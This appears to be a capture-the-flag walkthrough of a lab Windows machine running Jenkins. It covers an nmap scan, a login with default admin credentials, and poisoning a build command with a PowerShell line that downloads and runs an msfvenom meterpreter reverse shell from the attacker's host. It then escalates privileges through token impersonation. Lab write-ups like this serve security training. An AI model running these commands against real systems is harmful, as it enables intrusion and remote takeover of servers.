







# Alfred

*note: For this walkthrough, $TARGET is a bash variable holding the IP address of the target machine.*

## Enumeration

The first step to determining how to exploit the target is to enumerate it.  To begin, we will run an nmap scan using the following command:

```bash
nmap -A -Pn -p- -oN nmap/initial $TARGET
```

Output:

```bash
PORT STATE SERVICE VERSION

80/tcp open http Microsoft IIS httpd 7.5

| http-methods:

|_ Potentially risky methods: TRACE

|_http-server-header: Microsoft-IIS/7.5

|_http-title: Site doesn't have a title (text/html).

3389/tcp open ms-wbt-server?

| ssl-cert: Subject: commonName=alfred

| Not valid before: 2023-05-19T19:14:20

|_Not valid after: 2023-11-18T19:14:20

|_ssl-date: 2023-05-20T21:01:58+00:00; -1s from scanner time.

8080/tcp open http Jetty 9.4.z-SNAPSHOT

| http-robots.txt: 1 disallowed entry

|_/

|_http-server-header: Jetty(9.4.z-SNAPSHOT)

|_http-title: Site doesn't have a title (text/html;charset=utf-8).

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)

No exact OS matches for host (test conditions non-ideal).

Network Distance: 4 hops

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Right away, we can see that three ports are open: `80`, `3389`, and `8080`.

### Webpage

Navigating to port 80, we see a "RIP Bruce Wayne" page, and nothing interesting in the HTML source. We can note two things on the page: 1) Bruce Wayne (possible system user) and 2) alfred@wayneenterprises.com (useful in future?).



Gobuster and Nikto do not come up with anything fruitful either, so it appears as if port 80 is a dead end.

Gobuster:

```bash
gobuster dir -u http://$TARGET -w raft-large-words-lowercase.txt
```

Nikto:

```bash
nikto -h http://$TARGET -output nikto/http_scan.txt
```

### Jenkins

Since port 80 did not come up with anything particularly useful, we can move onto port 8080. Navigating to `http://$TARGET:8080` in a web browser displays a Jenkins login page. 


As always, we will try default credentials first. The most common default credentials are `admin:admin` and when we try them, we are redirected to a dashboard.



There is one project (cleverly named "project") we are allowed to interact with in this Jenkins dashboard.  



Since we can "Configure" the project, we can set "Build Commands". Manipulating the build commands will allow us a foothold on the target machine. 



Currently, the `whoami` command is being executed upon building the project, but we can make this project pull down and execute a meterpreter payload, giving us access to the machine. 

To create the meterpreter payload, we can use the following command (replacing `<MYIP>` with your IP address and `<MYPORT>` with the port you want the shell to communicate with your computer on):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=<MYIP> LPORT=<MYPORT> -o rev.exe --platform windows -a x64
```

After the payload has been generated, we will need to spin up a simple file server so the target can reach out and pull down the payload. We can do this with Python3 using the command:

```bash
python3 -m http.server <SRVPORT>
```

*note: make sure `<SRVPORT>` and `<MYPORT>` are different.*

After that, we need to open `msfconsole` in a different terminal window and run the following commands:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <MYIP>
set lport <MYPORT>
run
```

Now that the payload and listener are all staged an awaiting execution, we can poison the build.  We are going to have the target execute a powershell command to pull down our payload and execute it. We can replace `whoami` with the following:

```bash
powershell iex (New-Object Net.WebClient).DownloadFile('http://<MYIP>:<MYPORT>/revshell.exe','revshell.exe');
revshell.exe;
```

The command above instructs powershell to reach out to our C2 server and pull down the `revshell.exe` file we generated using `msfvenom` and save it to `revshell.exe` in the local directory (this name and location can be chaned to any place the service account has write access to, `C:\Public` is gnerally a safe target on Windows). The second line instructs the target to execute the reverse shell file, opening a meterpreter session with our machine. After we hit save and select "Build Now", the payload should be downloaded and the meterpreter session opened.

Once we have a foothold via meterpreter session, we can navigate to `C:\Users\bruce\Desktop` and `cat user.txt` to get the first flag.

## PrivEsc

Now that we have a foothold on the target as `bruce`, we can begin to elevate our privileges. First, lets take a look at the Windows privileges we currently have using `getprivs` in meterpreter.  There are two main privileges that stick out: `SeDebugPrivilege` and `SeImpersonatePrivilege`. 



Using the `incognito` module, we can take advantage of the impersonate privilege.  To use the module, enter `load incognito` into the meterpreter session and hit enter.  After the module has been loaded, we can see what users or groups we can impersonate using `list_tokens -u` and `list_tokens -g`. After running `list_tokens -g` we see that we can impersonate `BUILTIN\Administrators`.  Now, we can run `imersonate_token "BUILTIN\Administrators"` and eleveate our privileges to a local admin. 



We can confirm we have `NT AUTHORITY\SYSTEM` privileges by migrating to a process that is running as `NT AUTHORITY\SYSTEM`.  A stable process to migrate to is `lsass.exe`. To get the PID to migrate to, enter `ps lsass` and hit enter.  We can then migrate to it using `migrate <PID>`.



Now that we have confirmed our escalation, the only thing left to do is grab the root flag from `C:\Windows\System32\config`. 


## Automated Foothold

The process of logging in, poisoning the build, and uploading a payload has been automated in [this Goland program](exploit.go).  The only thing the user needs to do is generate a payload (using msfvenom) for the target to pull down and setup a meterpreter listener. The program will reach out to the target, login, create a new authenticated session, poison the build command with the powershell script and kick off the build, giving the attacker a foothold on the target without ever having to interact with it through the web-browser.